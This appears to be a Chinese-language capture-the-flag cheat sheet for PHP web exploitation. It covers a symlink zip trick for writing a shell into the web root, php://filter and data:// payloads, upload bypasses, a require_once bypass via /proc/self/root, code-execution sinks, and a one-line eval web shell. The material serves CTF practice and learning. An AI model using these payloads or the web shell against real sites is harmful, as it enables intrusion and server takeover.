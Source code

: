 先将一个软连接解压到/tmp/uploads/ 然后建立一个相同软连接的名字的目录里面写shell

然后在上传zip。

那么会解压的时候 相对路径是 xxx/1.php 而xxx 已经在/tmp/uploads 并且指向了/var/www/html/

那么最终解压的路径就会变成 /var/www/html/1.php

### xxe

## php 相关

   1. .hg源码泄漏 .git源码泄漏 .DS_Store文件泄漏，还有以.phps .bak结尾的网页
   2. 弱类型 "1b" == 1
   3. 空数组, sha1加密相同
   4. data://text/plain  传输内容, ?text=data://text/plain,I have a dream
   4. php://input        传输内容, ?text=php://input 改为POST请求, 在body传 I have a dream
   4. 获取文件内容 php://filter/ , ?file=php://filter/convert.base64-encode/resource=next.php
                                 file=php://filter/string.rot13/resource=include.php
                                 有时要把尾部的php去掉

   5. 目录扫描+文件上传
   5. 文件上传
      
       6. .user.ini 绕过
       7. 脚本语言绕过 `<script language='php'> phpinfo();</script>`
   6. %00截断 <5.3
   6. 需要查看点: phpinfo()
   6. 参数测试 ?no=1, 添加`'`, ?no=1' 测试
   7. $_SESSION -- `$password==$_SESSION['password']`, 抓包把PHPSESSID置空传password= 空即可
                    session.upload_progress.cleanup 文件包含，见下面
   6. phar反序列化漏洞
   7. PHP通过文件名注入。
   7. PHP开启短标签即short_open_tag=on时，可以使用<?=$_?>输出变量 即 `<?=@eval($_POST['a']);?>`
   7. 条件竞争  --- CTFshow红包题第六弹
   8. require_once绕过
                 1. session.upload_progress.cleanup 竞争
                 2. ?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
      
   7. 执行漏洞

       assert 字符串参数当作php参数执行。 assert("phpinfo()"), 下面有详解
       preg_replace() php5.5 /e 代码执行漏洞, 与双引号执行
       create_function  见_writeup_web.md
              https://www.gem-love.com/ctf/770.html
       call_user_func
       call_user_func_array
       `反引号执行
        
        8. 代码审记
       
